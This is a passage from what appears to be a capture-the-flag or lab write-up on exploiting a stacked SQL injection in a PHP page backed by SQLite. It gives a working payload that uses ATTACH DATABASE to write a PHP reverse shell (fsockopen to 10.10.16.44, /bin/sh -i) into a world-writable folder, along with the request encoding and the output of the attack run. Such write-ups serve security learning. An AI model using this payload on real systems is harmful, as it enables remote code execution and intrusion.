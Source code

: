 	if (isset($no_results)) {
	   $ret = $db->exec($query);
	   if($ret==FALSE)
	    {
	    echo "Error : ".$db->lastErrorMsg();
	    }
	}
	else
	{
	   $ret = $db->query($query);
	   while($row = $ret->fetchArray(SQLITE3_ASSOC) ){
	      echo "Name = ". $row['name'] . "\n";
	   }
	   if($ret==FALSE)
	    {
	    echo "Error : ".$db->lastErrorMsg();
	    }
	   $db->close();
	}
	}
	?>
	</body>
	</html>


## SQLite Stacked SQL Injection 

In this file, it is written that the folder ```d9e28afcf0b274a5e0542abb67db0784``` is world-writable. More important, the param ```$query``` is not sanitized and could allow a Stacked SQL Injection. The database is a SQLite, so we could create a database file with some PHP inside. After some attempts, it looks impossible to run ```system```, ```shell```, ```systemshell```, ```popen``` and ```exec``` commands.

The payload therefore for the injection has to be something like this:

	ATTACH DATABASE './d9e28afcf0b274a5e0542abb67db0784/db.php' AS db; CREATE TABLE db.table (field TEXT); INSERT INTO db.table (field) VALUES (<?php'$s=fsockopen("10.10.16.44",9119);`/bin/sh -i <&3 >&3 2>&3`;?>');-- 

While the request has to be something like this:

<pre>/dev/sqlite_test_page.php?no_results=0&bookid=1<b>;</b></pre>

The whole payload has to be constructed like this:

	{REQUEST_URL_ENCODED}{PAYLOAD_DOUBLE_URL_ENCODED}

We run then the SQLInjection against our target:

	root@pentestbox:~# python break_rc4.py 32mbgmnqsu2rs11jcnbepejcis {REQUEST_HERE_ENCODED}{PAYLOAD_HERE_DOUBLE_ENCODED}
	<html>
	<head></head>
	<body>
	Opened database successfully
	Query : SELECT * FROM books WHERE id=1;ATTACH DATABASE './d9e28afcf0b274a5e0542abb67db0784/db.php' AS d; CREATE TABLE d.p (pp TEXT); INSERT INTO d.p (pp) VALUES (<?php'$s=fsockopen("10.10.16.44",9119);`/bin/sh -i <&3 >&3 2>&3`;?>');-- 
	</body>
	</html>
